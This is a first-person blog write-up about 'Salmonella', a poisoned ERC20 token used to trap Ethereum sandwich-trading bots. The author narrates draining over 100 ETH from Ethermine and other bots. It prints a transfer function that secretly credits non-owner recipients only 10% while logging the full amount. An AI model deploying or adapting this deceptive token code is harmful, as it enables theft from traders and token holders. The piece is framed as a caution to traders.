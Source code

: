 ## Wrecking sandwich traders for fun and profit

Those who follow the action in Ethereum’s mempool will no doubt be aware of the sudden recent boom in [sandwich trading](https://medium.com/coinmonks/demystify-the-dark-forest-on-ethereum-sandwich-attacks-5a3aec9fa33e). For the uninformed, sandwich trading is a very interesting strategy which involves placing a trade before AND after a victim trade, in order to exploit the slippage that has been created.

In layman's terms, you see that someone will buy an asset, so you buy it first to artificially inflate the price, before selling afterwards at a profit.

This strategy used to be extremely risky, as Ethereum carries no guarantee that your transactions will succeed, and having only one transaction succeed can leave you the bag holder of a lot of worthless tokens. The mempool is a fun place, but it’s not a safe place.

However, a recent rise in MEV services such as [FlashBots](https://medium.com/flashbots/frontrunning-the-mev-crisis-40629a613752) now allows traders to create “sandwich bundles”, where either all 3 transactions execute, or none of them execute. At the same time, there has also been a rise in miner trading teams, who mine the sandwich bundles directly into their blocks.

These two innovations together led to a cavalier attitude on trading forums as sandwich traders rejoiced in the profits of their new “risk free” alpha. As trad(itional) finance morphs into chad finance, it's easy to get sucked up in the excitement.

However, nothing is risk-free on the blockchain, and exploitative trading strategies such as sandwich trading and front-running actually _increase_ in risk the more the engineer attempts to generalise their ability to capture opportunities.

To illustrate to novice traders the risks of playing in the mempool, I have conducted a demonstration of a new trading alpha I call “Salmonella”, which involves intentionally exploiting the generalised nature of front-running setups. The goal of sandwich trading is to exploit the slippage of unintended victims, so this strategy turns the tables on the exploiters.

A quick analysis of the blockchain revealed that an outfit named “[Ethermine](https://ethermine.org/)” is currently responsible for the bulk of sandwich trading, and had amassed a [couple of hundred Ethereum](https://etherscan.io/address/0xf6da21e95d74767009accb145b96897ac3630bad) through their sandwich trading sender address. Having settled on my initial target, I got to work analyzing their setup.

The Ethermine setup was/is fairly basic at the time of writing, relying on hitting the [Uniswap router](https://etherscan.io/address/0x7a250d5630b4cf539739df2c5dacb4c659f2488d) to execute trades. Their trading history was littered with reverts and their smart contract itself was holding a variety of tokens from failed trades. With this in mind I got to work creating my Salmonella contracts.

The premise of the Salmonella contract is very simple. It’s a regular ERC20 token, which behaves exactly like any other ERC20 token in normal use-cases. However, it has some special logic to detect when anyone other than the specified owner is transacting it, and in these situations it only returns 10% of the specified amount - despite emitting event logs which match a trade of the full amount.

The poisonous transfer function:
```
function _transfer(address sender, address recipient, uint256 amount) internal virtual {
  require(sender != address(0), "ERC20: transfer from the zero address");
  require(recipient != address(0), "ERC20: transfer to the zero address");
  uint256 senderBalance = _balances[sender];
  require(senderBalance >= amount, "ERC20: transfer amount exceeds balance");
  if (sender == ownerA || sender == ownerB) {
    _balances[sender] = senderBalance - amount;
    _balances[recipient] += amount;
  } else {
    _balances[sender] = senderBalance - amount;
    uint256 trapAmount = (amount * 10) / 100;
    _balances[recipient] += trapAmount;
  }
  emit Transfer(sender, recipient, amount);
}
```

I deployed the [Salmonella contract](https://etherscan.io/token/0x610b8B78da143fC1E38b36C4EA0f68F86cc3b4f4), then set up a simple [Uniswap pool](https://etherscan.io/address/0x5e0453a08550d10effffabdc370ae9ae3d7edd7e) containing Salmonella and Ethereum. I then replicated the detection maths for sandwich trading using binary search, to create a series of bait transactions which to Ethermine and other sandwich traders would look like juicy opportunities.

Finally, I coded an executing architecture, giving me the ability to quickly cancel trades, change gas prices, and reset the state of my trap Uniswap pool.

After a couple of strong coffees I got to work, launching a series of bait transactions, carefully pricing just below market gas to keep the transactions in the mempool, but cancelling if the price started dropping.

Within a few hours I had my [first hit](https://etherscan.io/tx/0x2dacb3fa8f32811ce832c0b59b8e4cab35e55655058974cbb71824d2039790c7), scooping over 68 ETH from their bots attempts to wreck my bait. Another few hours passed and I scooped a [further 35 ETH](https://etherscan.io/tx/0x515d28f2e515d549a51f804f5f205db5bb8680e5d54ed335593fe3b6b119a380) from their contract.

Happy to call it a night, I casually had a browse of my Salmonella smart contract, only to find I had emptied about [17 other Sandwich trading contracts](https://etherscan.io/token/0x610b8b78da143fc1e38b36c4ea0f68f86cc3b4f4#balances) in the course of my experiment, for much smaller values than Ethermine of course.

I continued this strategy for a couple of days, emptying a bunch more sandwich contracts along the way, but the alpha quickly decayed as the wrecked sandwich traders adjusted their setups to better detect my poisonous tokens.

All in all a fun experiment, which I now present to the community as a caution. Being a DeFi degenerate is a lot of fun, but be careful in your trading - because this game is highly adversarial and we play for keeps.

See you in the mempool!


----------
If you enjoyed this DeFi-Cartel writeup and are a serious trader, miner, or other player in the space, we are always open to potential revenue-generating ventures. Feel free to [get in touch](https://t.me/nathanworsley) if you have a great idea on how we might collaborate.